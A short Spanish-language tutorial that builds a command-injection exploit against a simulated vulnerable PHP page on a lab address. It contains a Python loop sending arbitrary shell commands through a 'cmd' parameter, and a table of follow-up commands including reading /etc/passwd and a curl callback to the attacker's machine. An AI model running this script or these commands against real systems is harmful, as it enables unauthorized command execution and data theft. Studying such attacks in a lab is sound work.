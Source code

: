
#### 🚧 Escenario Simulado

Supongamos que tienes acceso a una aplicación web con esta URL:

```
http://10.0.0.5/vuln.php?cmd=whoami
```

#### Lo que pasa detrás:

- El servidor toma el valor de `cmd` y lo ejecuta directamente en la terminal del sistema.
- Si no filtra la entrada, podemos enviar cualquier comando de Linux.

---

### 💻 Paso a paso: Crear un exploit en Python

#### 🐍 Código del exploit básico (GET)

```python
import requests

# URL del servidor vulnerable
url = "http://10.0.0.5/vuln.php"

while True:
    cmd = input("Comando> ")
    if cmd.lower() in ["exit", "quit"]:
        break

    # Enviamos el comando como parámetro
    try:
        res = requests.get(url, params={"cmd": cmd}, timeout=5)
        print(res.text)
    except requests.exceptions.RequestException:
        print("[!] Error al conectar con el objetivo")
```

#### 📌 ¿Qué hace este script?

1. Pide un comando al usuario
2. Lo envía como parámetro `cmd` a la URL
3. Imprime la respuesta del servidor (output del comando)

---

### 💣 Ejemplo de comandos útiles

| Comando               | Descripción                 |
| --------------------- | --------------------------- |
| `whoami`              | Muestra el usuario actual   |
| `ls -la`              | Lista archivos              |
| `cat /etc/passwd`     | Ver archivo de usuarios     |
| `curl http://IP:PORT` | Contacta tu equipo atacante |

---